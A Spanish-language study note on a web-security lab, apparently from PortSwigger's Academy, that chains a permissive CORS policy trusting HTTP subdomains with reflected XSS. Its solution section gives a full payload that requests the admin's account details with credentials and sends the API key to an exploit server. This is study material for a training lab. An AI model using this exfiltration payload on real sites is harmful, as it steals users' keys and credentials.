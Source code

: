 En esta clase continuamos con la explotación del laboratorio anterior, donde la configuración CORS del servidor acepta solicitudes desde cualquier subdominio, incluso si estas provienen de un origen no seguro (HTTP).

Profundizamos en cómo aprovechar una vulnerabilidad de XSS reflejado en un subdominio que opera sobre HTTP, lo cual nos permite inyectar y ejecutar un script malicioso. Dicho script accede al endpoint sensible de la cuenta del administrador y, gracias a la configuración permisiva del servidor, la clave API es expuesta. Este valor es redirigido al servidor de explotación para completar con éxito el laboratorio.

Solucion
Segimos con el script

<script>
    document.location="http://stock.0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a97004f0494e312811342b1019000de.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

el apikey me lo dio asi con los logs
![[Pasted image 20250728225235.png]]
